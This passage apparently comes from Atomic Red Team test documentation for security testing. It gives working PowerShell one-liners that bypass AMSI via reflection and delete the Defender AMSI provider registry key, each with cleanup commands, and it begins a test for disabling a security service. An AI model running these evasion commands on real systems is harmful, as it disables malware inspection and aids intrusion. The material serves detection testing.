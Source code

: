 #### Attack Commands: Run with `powershell`!

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Cleanup Commands:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$false)
```

<br/>
<br/>

## Atomic Test #14 - AMSI Bypass - Remove AMSI Provider Reg Key

With administrative rights, an adversary can remove the AMSI Provider registry key in HKLM\Software\Microsoft\AMSI to disable AMSI inspection.
This test removes the Windows Defender provider registry key. Upon execution, no output is displayed.
Open Registry Editor and navigate to "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\" to verify that it is gone.

**Supported Platforms:** Windows

**auto_generated_guid:** 13f09b91-c953-438e-845b-b585e51cac9b

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse
```

#### Cleanup Commands:

```powershell
New-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers" -Name "{2781761E-28E0-4109-99FE-B9D127C57AFE}" -ErrorAction Ignore | Out-Null
```

<br/>
<br/>

## Atomic Test #15 - Disable Arbitrary Security Windows Service

With administrative rights, an adversary can disable Windows Services related to security products. This test requires McAfeeDLPAgentService to be installed.
Change the service_name input argument for your AV solution. Upon exeuction, infomration will be displayed stating the status of the service.
To verify that the service has stopped, run "sc query McAfeeDLPAgentService"
